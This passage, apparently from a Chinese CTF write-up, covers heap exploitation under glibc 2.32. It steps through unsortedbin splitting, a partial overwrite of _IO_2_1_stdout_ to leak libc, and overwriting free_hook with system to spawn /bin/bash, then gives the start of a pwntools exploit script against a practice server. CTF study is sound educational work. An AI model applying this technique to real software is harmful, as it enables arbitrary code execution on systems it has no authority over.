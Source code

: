 6. 利用`unsortedbin`中chunk的分割,将main_arena地址写到`entries[目标大小]`中. 通过partial overwrite 打到`_IO_2_1_stdout_` (需要爆破,1 / 2^4). 
```
此处 payload  = p64(0xfbad1800)+p64(0)*3+"\x00"
```
写入payload,泄露出libc

7. 再次分割,覆盖`entries[目标大小]`为`free_hook`-0x10.(2.32中tcache申请的地址需要0x10对齐).
 因为申请的大小最高为0x7f,这个目标大小不能超过0x90. 这对之前分割时使用的size限制比较死,需要好好调试一下.

8. 写入"/bin/bash", 改free_hook为system, 调用`free`触发system("/bin/bash").

### 总结
2.32 下新的防护机制也带来了新的泄露方式,学到了.
但出题能别把每个方面都限制的那么死么=.=, 调试起来真的痛苦.

### 完整exp

```
from pwn import *
import sys

def init():
    global target
    if len(sys.argv) >1 and sys.argv[1] == 'r':
        target = remote("node3.buuoj.cn",PORT)
    else:
        target=process(["./ld-2.32.so","./pwn"],env={"LD_PRELOAD":"/home/trident/libc/glibc-all-in-one/libs/2.32-0ubuntu3.2_amd64/libc.so.6"})
        if(len(sys.argv)>1) and sys.argv[1]=='g':
            gdb.attach(target)

#context.log_level='debug'
#context.update(arch='')
#gdb.attach(target)


def s(i):
    target.recvuntil(">>")
    target.sendline(i)


def add(size,content):
    s("1")
    target.recvuntil("ize:")
    target.sendline(str(size))
    target.recvuntil("Content:")
    target.send(content)

def delete():
    s("2")

def show():
    s("3")

def edit(content):
    s("5")
    target.recvuntil("tent:\n")
    target.send(content)



def pwn():
    add(0x58,"a\n")
    delete()
```